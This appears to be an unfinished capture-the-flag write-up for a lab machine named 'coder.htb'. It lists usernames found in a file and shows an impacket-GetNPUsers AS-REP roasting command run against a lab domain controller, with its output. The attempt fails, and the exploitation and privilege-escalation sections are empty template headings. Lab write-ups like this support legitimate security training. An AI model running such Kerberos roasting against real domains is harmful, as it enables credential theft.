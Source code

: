 We can see that we have obtained some users here:

users.txt:

```
pkiadmins
e.black
itsupport
```

Going to attempt AS-REP roasting as a low-hanging fruit.

#### Impacket-GetNPUsers

```
impacket-GetNPUsers coder.htb/ -dc-ip 10.129.229.10 -no-pass -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User e.black doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

The user e.black is a valid user, but does not have Kerberos Pre-Authentication Disabled.

Moving on to a different file to analyze.

## Exploitation

### Name of the technique

This is the exploit

## Privilege Escalation

### Local enumeration

### PrivEsc vector

